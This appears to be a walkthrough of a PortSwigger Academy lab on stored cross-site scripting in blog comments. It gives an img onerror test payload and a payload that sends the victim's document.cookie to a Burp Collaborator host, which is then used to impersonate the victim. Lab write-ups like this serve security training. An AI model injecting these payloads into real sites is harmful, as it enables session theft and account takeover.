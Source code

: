 
# Exploiting cross-site scripting to steal cookies

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the cookie.

---------------------------------------------

References:

- https://portswigger.net/web-security/cross-site-scripting/exploiting

---------------------------------------------

First we test the XSS in one of the blog posts. This payload works:

```
</p><img src=x onerror=alert(1) /><p>
```



![img](images/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/1.png)

Next we try the payload:

```
'document.location="http://s2v2in38mu6tj6w733goro9f066xunic.oastify.com/?cookies="+document.cookie'
```

```
</p><img src=x onerror='document.location="http://s2v2in38mu6tj6w733goro9f066xunic.oastify.com/?cookies="+document.cookie' /><p>
```

We receive cookies in Burp Collaborator:



![img](images/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/2.png)


Then intercept the request to the Home page and add these cookies:



![img](images/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/3.png)